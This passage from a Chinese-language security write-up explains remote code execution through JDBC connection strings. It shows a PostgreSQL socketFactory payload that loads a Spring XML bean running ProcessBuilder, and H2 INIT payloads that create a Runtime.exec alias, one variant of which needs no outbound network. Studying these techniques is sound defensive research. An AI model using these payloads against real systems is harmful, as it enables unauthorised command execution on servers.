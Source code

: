 这个洞可以利用 `socketFactory` 和 `socketFactoryArg` 来传入一个类并实例化，然后其构造参数是可控的，我们可以寻找到 spring 框架中的如下两个类来进行利用。

```java
org.springframework.context.support.ClassPathXmlApplicationContext
org.springframework.context.support.FileSystemXmlApplicationContext
```

构造形如 `jdbc:postgresql://node/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://127.0.0.1/test.xml` 的payload 来引入恶意的 `xml` 文件进行利用。

`xml` 文件的内容如下：

```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>open</value>
                <value>-a</value>
                <value>Calculator</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

### 2.3 Spring Boot H2

H2 driver 的利用攻击面比较广，可以分别来分析一下。

#### javac

首先对于包含 javac 的环境，即包含 jdk 的环境，可以直接构造 Java 语句进行 RCE。

网上流传的 Poc 为：

```java
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8000/poc.sql'
```

poc.sql 的内容为：

```sql
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "1";}';CALL EXEC ('calc.exe')
```

这里通过 init 来执行语句，其只允许执行一条 sql 语句，所以网上的思路都是加载外部 sql 文件来执行，需要出网的条件。

不过这里有个 trick，实际上多进行几次转义，这里的 init 可以塞进两条语句，如下所示，实际上不出网也可以实现利用。

```java
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd)\\;return \"1\"\\;}'\\;CALL EXEC ('calc')
```

#### Nashorn JavaScript
